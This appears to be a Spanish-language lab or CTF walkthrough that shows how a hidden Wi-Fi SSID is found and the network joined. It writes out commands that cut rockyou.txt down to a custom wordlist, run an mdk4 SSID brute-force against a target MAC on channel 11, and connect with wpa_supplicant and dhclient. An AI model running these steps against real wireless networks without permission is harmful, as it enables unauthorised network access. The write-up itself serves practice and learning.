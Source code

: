  

usamos mdk4 para un ataque de fuerza bruta usando rockyou modificada, usaremos el siguiente comando para la siguiente dirección MAC:  
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdAwUMrxOOUJqyCiRzMwMRKFvfjOqW794QzYVFZGq2QzcaDkEfLqd-3nBC5zMvwRh0rP6NEkbMoVI1yNiYzJnlHIyFp46QJ5cJKaj3vSU052ugcrmHrO2qTKxhOsxwLelcUqd0M?key=guR6kJWpYbMi9eVMXwKptnIU)

  

primero usaremos rockyou como sabemos que son 9 letras usaremos rockyou filtrando primero en 4 letras ya que todas empiezan por wifi-

  

grep -E '^[a-zA-Z]{4}$' rockyou.txt >  rockyou_4letras.txt

  

Luego añadimos wifi- al principio de cada palabra:

sed 's/^/wifi-/' rockyou_4letras.txt > rockyou_wifi.txt

  
  

Luego establecemos la wlan0mon en el canal que buscamos que está la red, en este caso el 11.

  

iwconfig wlan0mon channel 11

  

Finalmente hacemos un ataque con 

  

mdk4 wlan0mon p -t <MAC> -f ~/rockyou_wifi.txt

  

siendo -t la interfaz para atacar y -f la world list a usar

  

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc1krmj_V1T3XN78saiNHN7tPqBTYbM0UOuNJVtynvwWDj2gKizMRORdp9sH-kD3ZIjmFEYleF01i4QeZyZjzkovmH-N7gCqvZ33ojn-0WwJTJ_TJz83tPcRfzu-HA5MwQhmKVehQ?key=guR6kJWpYbMi9eVMXwKptnIU)

  

Vemos que es wifi-free es la SSID del WiFi oculto.

Para entrar al wifi-free nos conectamos al DHCP creando un archivo de configuración para entrar al wifi.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdFbG82er6igahLSDYGX6md3vJAGOEP5eIH8TVYm08ZO2TaHCS7IGW1zNHg_dlvNzK8MSHVo49dkTuD4pLcIvz2unw2EklAH4Fik6Rj8LJiSAO9mbQ03eAxGtjPzU1WDPeZkx2U?key=guR6kJWpYbMi9eVMXwKptnIU)

  

y usamos el siguiente comando, esto hace que el driver (Dnl80211) de wifi permite conectarse con la interfaz wlan1 a la red mediante la configuración del archivo.:  
  

wpa_supplicant -Dnl80211 -iwlan1 -c c_red.conf

  

y nos conectamos a la red mediante:

  

dhclient wlan1 -v
